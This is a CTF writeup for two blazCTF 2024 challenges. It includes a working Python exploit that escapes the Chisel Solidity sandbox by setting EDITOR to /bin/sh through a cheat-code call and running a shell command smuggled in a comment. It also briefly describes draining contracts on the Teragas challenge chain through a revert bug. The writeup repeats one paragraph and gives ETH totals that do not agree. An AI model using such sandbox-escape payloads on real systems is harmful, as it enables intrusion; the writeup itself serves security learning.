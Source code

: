 ```yaml
---
title: (CTF) blazCTF 2024 writeup (Chisel as a Service, teragas)
description: blazCTF writeup
categories: [CTF,WEB3]
tags : [writeup,web3]
date : 2024-09-27 05:02:13 +0900
author:
    name:
    link:
toc: true
comments: true
mermaid: true
math: true
---
```


I played blaz CTF as [KimchiPremium](https://x.com/Web3Kimchi), had a lot of fun with the awesome kimchi hackers 

## Chisel as a Service
---
> Chisel as a Service
> Mina just develops a highly robust Solidity sandbox!
> 
> 
> Connect to Challenge: nc chisel-as-a-service.chal.ctf.so 1337
> Your Ticket: 2b88a986-595d-45b0-9a24-2aa11a6c5c6d
> 
> 
> Handouts
> 
> 
> /* Author: minaminao */
> 
> \# Solidity,Sandbox / 25 solves / 371 pts

The server runs `chisel` with the `--no-vm` option, and the -e (or -exec) keyword is disabled. The flag's filename is random, so we need to get a shell."

### chisel commands
---

```
No solidity versions installed! Installing solidity version 0.8.19...
Welcome to Chisel! Type `!help` to show available commands.
⚒️ Chisel help
=============
General
    !help | !h - Display all commands
    !quit | !q - Quit Chisel
    !exec <command> [args] | !e <command> [args] - Execute a shell command and print the output

Session
    !clear | !c - Clear current session source
    !source | !so - Display the source code of the current session
    !save [id] | !s [id] - Save the current session to cache
    !load <id> | !l <id> - Load a previous session ID from cache
    !list | !ls - List all cached sessions
    !clearcache | !cc - Clear the chisel cache of all stored sessions
    !export | !ex - Export the current session source to a script file
    !fetch <addr> <name> | !fe <addr> <name> - Fetch the interface of a verified contract on Etherscan
    !edit - Open the current session in an editor

Environment
    !fork <url> | !f <url> - Fork an RPC for the current session. Supply 0 arguments to return to a local network
    !traces | !t - Enable / disable traces for the current session
    !calldata [data] | !cd [data] - Set calldata (`msg.data`) for the current session (appended after function selector). Clears it if no argument provided.

Debug
    !memdump | !md - Dump the raw memory of the current state
    !stackdump | !sd - Dump the raw stack of the current state
    !rawstack <var> | !rs <var> - Display the raw value of a variable's stack allocation. For variables that are > 32 bytes in length, this will display their memory pointer.
```
To execute shell commands, we need to find a command that uses `process::Command`. Not only the `exec` command, but also the `edit` command uses Command to open the editor.

```rust
ChiselCommand::Edit => {
    // create a temp file with the content of the run code
    let mut temp_file_path = std::env::temp_dir();
    temp_file_path.push("chisel-tmp.sol");
    let result = std::fs::File::create(&temp_file_path)
        .map(|mut file| file.write_all(self.source().run_code.as_bytes()));
    if let Err(e) = result {
        return DispatchResult::CommandFailed(format!(
            "Could not write to a temporary file: {e}"
        ))
    }

    // open the temp file with the editor
    let editor = std::env::var("EDITOR").unwrap_or_else(|_| "vim".to_string());
    let mut cmd = Command::new(editor);
    cmd.arg(&temp_file_path);

    match cmd.status() {
...
```
In the `edit` command, it saves the currently running code to `/tmp/chisel-tmp.sol` and then executes the editor with the file as an argument

With [setEnv](https://book.getfoundry.sh/cheatcodes/set-env) function in Vm cheat code, we can set the `EDITOR` environment variable to `/bin/sh` and execute the contents of the running code as a shell script. but the `--no-vm` flag is set. what's actually that flag? 

With the [setEnv](https://book.getfoundry.sh/cheatcodes/set-env) function in the Vm cheat code, we can set the `EDITOR` environment variable to `/bin/sh` and execute the running code as a shell script. However, the `--no-vm `flag is set. What exactly does this flag do?

### --no-vm flag
---
```rust
 pub fn to_repl_source(&self) -> String {
    let Version { major, minor, patch, .. } = self.solc.version;
    let Self { contract_name, global_code, top_level_code, run_code, config, .. } = self;

    let (vm_import, vm_constant) = if !config.no_vm {
        (
            "import {Vm} from \"forge-std/Vm.sol\";\n",
            "Vm internal constant vm = Vm(address(uint160(uint256(keccak256(\"hevm cheat code\")))));\n"
        )
    } else {
        ("", "")
    };
```
In the chisel code, when the `--no-vm` flag is set, it doesn't import the `Vm` contract or set the `vm` constant. That's all. We can still call the cheat codes in the Vm contract using the address `address(uint160(uint256(keccak256("hevm cheat code"))))`.

By setting the `EDITOR` environment variable to `/bin/sh`, we can execute the contents of the running code as a shell script. However, the running code needs to be valid Solidity. To work around this, we can simply add a comment with `;` and run cat flag, like `//; cat /flag-*.`

### exploit
---
```python
import requests

url = "http://snwo.kr:3000/"

code = """
//;cat /flag-*
address hevm = address(uint160(uint256(keccak256("hevm cheat code"))));
interface VM { function setEnv(string calldata key, string calldata value) external; }
VM vm = VM(hevm);
vm.setEnv("EDITOR", "/bin/sh");
!edit
"""
uuid = requests.get(url+"run",params={"code":code}).json()['uuid']

r = requests.get(url+"out/"+uuid)
print(r.text)
```

## Teragas

> Teragas
> After getting exploited by REVMC bug, Tony started to hate Paradigm. Seeing Paradigm invested in so many parallel EVM chains and built Reth, Tony decided to build an even faster chain to compete with them.
> 
> This is a King Of the Hill challenge. The more ETHs you steal, the more points you would get. Submit your exploit at teragas.ctf.so
>  ... 
> /* Author: shoucccc */
> 
> \# KoH,EVM / 6 solves / 2500 pts
> 
> Team KimchiPremium: `1986007ETH`
> Team DPRK Workers In Your Company: 1796703ETH
> Team Wut is Ciallo: 1656267ETH
> Team Amber Labs: 1532119ETH
> Team offside_labs_interns: 1478952ETH
> Team DeFiHackLabs: 277542ETH
> Team shou: 0ETH

Just a brief writeup. we earned  a total of `19,986,007` ETH. There was a bug that each state-related opcodes do not recover the state when it reverts. So we can leverage this to bypass check balance or smth.

```solidity
    function join(address usr, uint wad) external note {
        vat.move(address(this), usr, mul(ONE, wad));
        dai.burn(msg.sender, wad);
    }
    function exit(address usr, uint wad) external note {
        require(live == 1, "DaiJoin/not-live");
        vat.move(msg.sender, address(this), mul(ONE, wad));
        dai.mint(usr, wad);
    }
```
For example, in the MakerDAO contract, tokens are minted first and then the balance is checked. Since the sstore opcode doesn’t revert the state when the transaction reverts, we were able to keep the minted tokens.

We drained all WETH pairs of top TVL swaps, as well as flash loan contracts, bridges, and smth... It was a lot of fun exploring the Ethereum chain to drain the contracts 🫠